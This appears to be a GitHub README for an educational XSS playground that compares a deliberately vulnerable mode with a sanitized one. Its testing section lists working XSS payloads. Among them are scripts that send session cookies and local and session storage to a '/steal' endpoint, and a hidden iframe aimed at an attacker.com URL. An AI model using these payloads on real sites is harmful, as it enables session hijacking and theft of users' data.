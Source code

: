 # JavaScript XSS Playground

This project demonstrates what XSS (Cross-site Scripting) is and how to prevent it using input sanitization. It is designed for educational purposes to help developers understand the risks of XSS attacks and the importance of secure coding practices.


**testing the 1st tested payload**
![testing the 1st tested payload](https://imgur.com/TqDvpzu.png)

**entering payloads in SECURED mode**
![entering payloads in SECURED mode](https://imgur.com/QNSfU2r.png)

**after running server.js; enter the tested payload 4 and 5 into the text field**
![after running server.js; enter the tested payload 4 and 5 into the text field](https://imgur.com/UMWvQz3.png)

**after entering see the stolen data from server.js console**
![after entering see the stolen data from server.js console](https://imgur.com/E4OOnXG.png)


## Features

- **Vulnerable Mode**: Simulates a working XSS vulnerability to demonstrate how attacks occur.
- **Secured Mode**: Shows how input sanitization can effectively prevent XSS attacks.
- **Toggle**: Easily switch between "Vulnerable" and "Secured" modes to compare behaviors.

## Concepts Learned

- Understanding XSS attacks and their impact.
- Implementing input validation and sanitization techniques.
- Recognizing the importance of secure coding practices.

## How to Use

1. Open `index.html` in a browser.
2. Enter some text in the input field and submit.
3. Toggle between "Vulnerable" and "Secured" modes to observe the difference in behavior.

## Testing the Project

1. Open `index.html` in a browser.
2. Use the following payloads in the input field to test XSS vulnerabilities:
   - `<img src="x" onerror="alert('XSS Attack!')">`
   - `<script>document.body.innerHTML = '<h1>Hacked by Attacker</h1>';</script>`
   - `<a href="https://www.youtube.com/" target="_blank">Click here</a>`
   - `<script>const img = document.createElement('img'); img.src = 'http://localhost:3000/steal?session=' + document.cookie; document.body.appendChild(img);</script>`
   - `<script>const data = { localStorage: JSON.stringify(localStorage), sessionStorage: JSON.stringify(sessionStorage) }; fetch('http://localhost:3000/steal', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify(data) });</script>`
   - `<iframe src="http://attacker.com/steal-session" style="display:none;"></iframe>`
   - `<div id="target" onmouseover="alert('XSS via Event Listener')">Hover over me</div>`

3. Toggle between "Vulnerable" and "Secured" modes to observe how the application handles these payloads.

## Educational Purpose

This project is designed to educate developers about the risks of XSS attacks and the importance of input validation and sanitization. It provides hands-on experience with real-world attack scenarios and demonstrates effective prevention techniques.

## Disclaimer

This project is for educational purposes only. Do not use the vulnerable mode in a production environment. Always validate and sanitize user input to prevent malicious scripts from being executed.

